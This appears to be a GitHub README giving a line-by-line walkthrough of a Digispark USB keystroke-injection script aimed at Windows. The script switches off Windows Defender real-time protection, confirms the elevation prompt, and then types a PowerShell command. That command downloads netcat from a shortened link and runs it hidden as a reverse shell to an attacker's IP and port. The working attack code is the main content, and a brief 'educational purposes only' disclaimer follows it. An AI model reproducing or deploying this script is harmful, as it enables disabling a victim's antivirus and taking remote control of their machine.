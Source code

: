 This script uses the DigiKeyboard library to automate keystrokes and input text. Here is a breakdown of each line of code:

#include "DigiKeyboard.h"   This line includes the DigiKeyboard library.

void setup() {          This line starts the setup function.

DigiKeyboard.delay(1000);       This line pauses the script for 1 second.

DigiKeyboard.sendKeyStroke(KEY_S,MOD_GUI_LEFT);  This line sends a key press for the S key with the left GUI (Windows) key modifier.

DigiKeyboard.delay(1000);  This line pauses the script for 1 second.

DigiKeyboard.print("virus & threat protection");   This line inputs the text "virus & threat protection".

DigiKeyboard.delay(500);   This line pauses the script for 0.5 seconds.

DigiKeyboard.sendKeyStroke(KEY_ENTER);    This line sends a key press for the Enter key.

DigiKeyboard.delay(5000);    This line pauses the script for 5 seconds.

DigiKeyboard.sendKeyStroke(43);
DigiKeyboard.sendKeyStroke(43);    These four lines send key presses for the + key four times, which opens the settings menu in Windows 10.
DigiKeyboard.sendKeyStroke(43);
DigiKeyboard.sendKeyStroke(43);

DigiKeyboard.delay(700);   This line pauses the script for 0.7 seconds.

DigiKeyboard.sendKeyStroke(KEY_ENTER);  This line sends a key press for the Enter key.

DigiKeyboard.delay(700);   This line pauses the script for 0.7 seconds.

DigiKeyboard.sendKeyStroke(KEY_SPACE);   This line sends a key press for the Space key.

DigiKeyboard.delay(2000);    This line pauses the script for 2 seconds.

DigiKeyboard.sendKeyStroke(KEY_Y,MOD_ALT_LEFT);   This line sends a key press for the Y key with the left Alt key modifier.

DigiKeyboard.delay(1000);   This line pauses the script for 1 second.

DigiKeyboard.sendKeyStroke(KEY_F4 , MOD_ALT_LEFT);  This line sends a key press for the F4 key with the left Alt key modifier, which closes the current window.

DigiKeyboard.delay(500);     This line pauses the script for 0.5 seconds.

DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);   This line sends a key press for the R key with the left GUI (Windows) key modifier, which opens the Run dialog box.

DigiKeyboard.delay(700);  This line pauses the script for 0.7 seconds.

DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");  This line inputs a PowerShell command that downloads and executes the netcat.exe tool, which can be used for remote command execution.


DigiKeyboard.sendKeyStroke(KEY_ENTER);  This line sends a key press for the Enter key, which executes the PowerShell command.
 
void loop() {} This line starts the loop function, which is empty in this script. The loop function is not used in this script.
 


# Warning 
# Everything in this repository is intended for educational purposes only. I am not responsible for any wrong behavior on your part. You are responsible for your actions using the script.
 

 



 

 






 





 






























